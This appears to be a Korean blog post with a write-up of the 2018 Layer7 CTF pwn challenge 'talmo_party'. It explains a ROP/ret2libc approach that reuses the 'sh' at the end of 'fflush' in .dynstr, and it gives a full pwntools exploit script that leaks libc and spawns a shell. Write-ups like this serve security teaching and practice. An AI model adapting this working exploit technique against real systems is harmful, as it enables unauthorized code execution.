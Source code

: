 ```yaml
---
title: "2018 Layer7 CTF talmoru_party!~"
date: 2019-11-4
tags: [Layer7]
categories: [Pwn]
---
```


2018년 Layer7 CTF에 출제된 문제이다. 

일반적인 ROP다. 근데 함수중에 fflush가 사용된 것을 보고 .dynstr에 적재된 fflush함수의 뒤 두 글자 `sh` 를 넣어주고 익스했다. 

`objdump -h BINARY` 로 섹션 헤더를 보면 .dynstr 주소 값을 gdb로 보면 함수 이름들이 있는 것을 알 수 있다.

그래서 `system("/bin/sh")` 해주지 않아도 `system("sh")` 로 쉘을 흭득할 수 있다.

```python
from pwn import *
 
e = ELF('./talmo_party')
r = ROP(e)
#libc = ELF('./layer7.so.6')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./talmo_party')
 
vuln = 0x80486e0
puts_plt = e.plt['puts']
puts_got = e.got['puts']
 
p.sendlineafter('>>','3')
 
payload = 'A'*(0x40+4)
r.puts(puts_got)
r.raw(vuln)
payload += str(r)
p.sendline(payload)
p.recvuntil('~~!\n')
 
libc_base = u32(p.recv(4)) - libc.symbols['puts']
system = libc_base + libc.symbols['system']
log.info('libcbase : ' +hex(libc_base))
 
pay2 = 'A'*(0x40+4)
pay2 += p32(system)
pay2 += 'AAAA'
pay2 += p32(0x80482da) # .dynstr -> fflush -> sh get
#pay2 += p32(libc_base+list(libc.search('/bin/sh'))[0])
p.sendline(pay2)
 
p.interactive()
```

